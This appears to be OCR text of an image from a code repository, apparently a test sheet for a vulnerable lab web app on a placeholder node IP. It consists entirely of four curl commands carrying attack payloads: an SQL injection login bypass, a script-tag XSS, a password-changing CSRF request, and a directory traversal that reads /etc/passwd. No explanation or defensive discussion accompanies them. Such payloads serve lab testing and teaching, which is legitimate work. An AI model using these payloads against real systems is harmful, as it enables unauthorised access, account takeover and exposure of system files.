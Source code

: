 1. SQL Injection
curl -X POST http://<Node-IP>:30008/login \
-H "Content-Type: application/x-www-form-urlencoded" \
-d "username=' OR 1=1 -- &password=anything"

2. Cross-Site Scripting (XSS)
curl -X POST http://<Node-IP>:30008/comment \
-H "Content-Type: application/x-www-form-urlencoded" \
-d "comment=<script>alert('XSS Attack');</script>"

3. Cross-Site Request Forgery (CSRF)
curl -X GET "http://<Node-IP>:30008/change-password?new_password=hacked" \
--header "Cookie: session=<session_id>" # Replace <session_id> with a valid session ID

4. Directory Traversal
curl -X GET "http://<Node-IP>:30008/?file=../../etc/passwd"


